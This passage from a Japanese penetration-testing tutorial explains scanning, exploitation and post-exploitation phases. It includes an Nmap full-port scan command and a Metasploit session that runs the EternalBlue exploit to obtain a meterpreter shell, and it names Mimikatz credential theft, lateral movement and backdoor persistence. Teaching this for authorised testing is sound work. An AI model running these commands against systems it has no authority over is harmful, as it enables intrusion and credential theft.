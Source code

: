 ##### 【実践例】Nmapを使ったスキャン
```bash
# -sV: ポートで稼働しているサービスのバージョンを特定
# -sC: デフォルトのスクリプトを実行して追加情報を収集
# -p-: 全てのポート（1-65535）をスキャン対象とする
# -oN nmap_result.txt: 結果をファイルに保存
# 192.168.1.10: ターゲットのIPアドレス

nmap -sV -sC -p- -oN nmap_result.txt 192.168.1.10
```
このコマンドは、ターゲット `192.168.1.10` の全てのポートをスキャンし、サービスのバージョン情報や追加情報を取得して `nmap_result.txt` に保存します。

#### フェーズ3: 侵入 (Gaining Access / Exploitation)

**このフェーズで、実際にシステムの脆弱性を利用して侵入を試みます。** ペネトレーションテストの核心部分です。

*   **目的**: システムへのアクセス権限（例: シェルの取得）を獲得します。
    *   **シェル**: コンピュータを操作するためのコマンドラインインターフェース。シェルを奪取することは、そのコンピュータを乗っ取ることとほぼ同義です。
*   **手法**:
    *   **脆弱性攻撃**: スキャンで見つかった脆弱性に対して、**Exploit（エクスプロイト）** と呼ばれる攻撃コードを使用して攻撃します。
    *   **パスワード攻撃**: SSHやFTPなどのサービスに対して、パスワードを推測（ブルートフォース攻撃、辞書攻撃）します。
    *   **設定不備の悪用**: デフォルトのパスワードが設定されたままの機器や、アクセス制御が不十分な管理画面などを狙います。
    *   **Webアプリケーション攻撃**: SQLインジェクション、クロスサイトスクリプティング（XSS）、OSコマンドインジェクションなどを試みます。
*   **使用ツール**: **Metasploit Framework**, **Burp Suite**, Hydra, John the Ripper

##### 【実践例】Metasploit Frameworkを使った侵入
Metasploitは、数千ものExploitを内蔵した強力な攻撃フレームワークです。
例えば、「MS17-010 (EternalBlue)」というWindowsの有名な脆弱性を攻撃するシナリオは以下のようになります。

```bash
# Metasploitコンソールを起動
msfconsole

# 使用するExploitを選択
msf6 > use exploit/windows/smb/ms17_010_eternalblue

# 攻撃対象のIPアドレス（RHOSTS）を設定
msf6 exploit(windows/smb/ms17_010_eternalblue) > set RHOSTS 192.168.1.20

# 攻撃を実行
msf6 exploit(windows/smb/ms17_010_eternalblue) > exploit

# 成功すると、meterpreterという高機能なシェルが起動する
meterpreter > 
```

#### フェーズ4: 権限昇格と内部活動 (Privilege Escalation and Post-Exploitation)

侵入に成功しても、最初は一般ユーザーなどの低い権限しか持っていないことがほとんどです。このフェーズでは、より高い権限（WindowsのAdministratorやLinuxのroot）を取得し、さらなる内部活動を行います。

*   **目的**:
    *   **権限昇格 (Privilege Escalation)**: システムの管理者権限を奪取します。
    *   **内部偵察 (Internal Reconnaissance)**: 侵入したサーバーから、さらに内部のネットワーク構成や他のサーバーの情報を収集します。
    *   **水平展開 (Lateral Movement)**: 内部ネットワークの他のサーバーへ次々と侵入を拡大していきます。
    *   **永続化 (Persistence)**: システムが再起動してもアクセス権を維持できるように、バックドアなどを設置します。
*   **手法**:
    *   OSのカーネルの脆弱性を突く。
    *   パスワードが平文で保存されているファイルを探す。
    *   特権で実行されるサービスの不備を利用する。
    *   **Mimikatz**のようなツールで、メモリ上からパスワード情報を窃取する。
*   **使用ツール**: LinPEAS, WinPEAS (権限昇格のための情報収集スクリプト), Mimikatz, PowerSploit, Cobalt Strike
